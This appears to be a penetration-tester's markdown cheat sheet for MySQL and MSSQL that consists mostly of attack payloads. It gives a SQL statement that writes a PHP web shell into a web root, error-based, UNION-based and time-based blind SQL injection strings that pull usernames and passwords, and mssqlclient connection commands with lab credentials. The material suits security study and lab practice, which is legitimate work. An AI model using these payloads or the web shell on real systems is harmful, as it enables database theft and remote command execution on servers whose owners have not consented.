 ```
select * from <table name>;
```

##### RCE

write webshell
```
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE 'c:/wamp/www/webshell.php'
```

##### local privilege escalation
https://steflan-security.com/linux-privilege-escalation-exploiting-user-defined-functions/?source=post_page-----6cc4d6eea356--------------------------------

#### MSSQL

##### sqli

https://book.hacktricks.xyz/pentesting-web/sql-injection

Blind SQL Injections

```
1' WAITFOR DELAY '0:0:5' --//
```

Identifying SQLi via Error-based Payloads

```
' OR 1=1 -- //
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //
' or 1=1 in (SELECT password FROM users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

UNION-based Payloads

```
' ORDER BY 1-- //
%' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, null, database(), user(), @@version  -- //
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```

 yes/no questions

```
# time based attack - mssql
'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--
```
##### general commands

```
# connect to mssql DB
mssqlclient.py Administrator:Lab123@192.168.50.18 -windows-auth
mssqlclient.py domain/Administrator:Lab123@192.168.50.18 -windows-auth
mssqlclient.py PublicUser:GuestUserCantWrite1@sequel.htb


# check version
SELECT @@version;

# list databases
SELECT name FROM sys.databases;

# list tables
SELECT * FROM <db name>.information_schema.tables;
```